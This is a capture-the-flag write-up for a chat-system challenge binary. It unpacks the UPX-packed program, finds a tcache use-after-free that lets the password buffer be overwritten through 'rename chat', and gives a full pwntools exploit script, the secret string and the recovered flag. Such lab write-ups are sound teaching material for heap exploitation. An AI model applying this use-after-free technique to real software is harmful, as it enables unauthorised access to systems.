


# Chat System Breach - Writeup

---

## Exploit Demo

This demo illustrates the step-by-step exploit process:


---

## Binary Inspection

We begin by analyzing the binary for further reversing and exploitation.

### Step 1: Checking binary format

```bash
$ file main
```

The binary is a 64-bit statically linked PIE executable.


---

### Step 2: Checking binary security

```bash
$ pwn checksec main
```

The binary appears to be Packed with UPX.


---

### Step 3: Unpacking the binary

```bash
$ upx -d main
```

We unpack the binary with UPX tool to make it analyzable .


---

### Step 4: Checking binary format again

```bash
$ file main
```

Post-unpacking, the binary is 64-bit stripped of symbol information.



---

### Step 5: Rechecking security after unpacking

```bash
$ pwn checksec main
```

The `checksec` output for `main` shows: 64-bit AMD architecture, Partial RELRO, no stack canary, NX enabled, and PIE enabled.


---

## Static Analysis (IDA Pro)

The first thing that stood out was that both the chat name and password buffers are allocated with the same size (`0x40`). This immediately suggested a potential tcache reuse: if we free the chat name and then allocate a password, the new `s1` pointer will point to the same memory previously used by the chat name, enabling a use-after-free exploit.

## 



## How to solve

This binary implements a chat system vulnerable to a classic **tcache-based use-after-free (UAF)**. Exploiting this UAF allows us to write arbitrary data into the "password" buffer (`s1` chunk), which is critical for bypassing a password check in `verify_password()`. Successfully passing the check triggers a call to `system("./log")` revealing the flag.

---

## Vulnerability Summary

- A 0x40-byte chunk is allocated for the chat name.
- During chat deletion, this chunk is freed and placed into the tcache freelist.
- The deletion can be canceled, leaving the chat struct valid but the name chunk freed.
- The password buffer (`s1`) is later allocated using `malloc(0x40)` — it reuses the freed chunk.
- Renaming the chat writes into the `s1` buffer.
- Writing the correct secret string (`"53cr37_c0d3"`) triggers `system("./log")`.

---

## Exploit Strategy

1. **Create a chat**  
   Allocates:

   - 0x208-byte struct chunk
   - 0x40-byte chunk for the name (stored at `struct->[1]`)

2. **Free the name chunk but cancel deletion**

   - `delete_chat()` frees the name chunk
   - Choose **N** to cancel → struct remains alive
   - Chunk is now in tcache

3. **Allocate the password buffer (`s1`)**

   - `s1 = malloc(0x40)` → reuses the tcache chunk

4. **Rename chat**

   - `rename_chat()` writes into `struct->[1]` → now also `s1`

5. **Write the secret and verify**

   - Input: `"53cr37_c0d3"`
   - Check: `strncmp(s1, "53cr37_c0d3", 11)`
   - Success: `system("./log")`

---

## Exploit script

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'main')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      No RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# Packer:     Packed with UPX

io = start()

def new_chat(idx, name, msg):
    io.sendlineafter(b'> ', b'1')
    io.sendlineafter(b'Index (0-9): ', str(idx).encode())
    io.sendafter(b'Name of the chat: ', name.ljust(0x40, b'\x00'))
    io.sendafter(b'reply ASAP :', msg)

def delete_chat(idx, confirm):
    io.sendlineafter(b'> ', b'2')
    io.sendlineafter(b'Index (0-9): ', str(idx).encode())
    io.sendafter(b'(Y/N):', confirm)

def rename_chat(idx, new_name):
    io.sendlineafter(b'> ', b'3')
    io.sendlineafter(b'Index (0-9): ', str(idx).encode())
    io.sendafter(b'Name of the chat: ', new_name.ljust(0x40, b'\x00'))

def verify_password():
    io.sendlineafter(b'> ', b'7')

new_chat(0, b'dexter', b'dexter')

delete_chat(0, b'N')

io.sendlineafter(b'> ', b'5')

rename_chat(0, b'53cr37_c0d3')

verify_password()

io.interactive()

```

---

## Result

After successful password verification, the binary executes:

```c
system("./log");
```

This outputs the contents of the `./log` file — presumably the **flag**.

## 

## FLAG

After verification, we retrieve the flag from the program’s output.

```
RedPointer{9#zF@4T$3n!VmC82&xLpQ1r*X6~dEj}
```
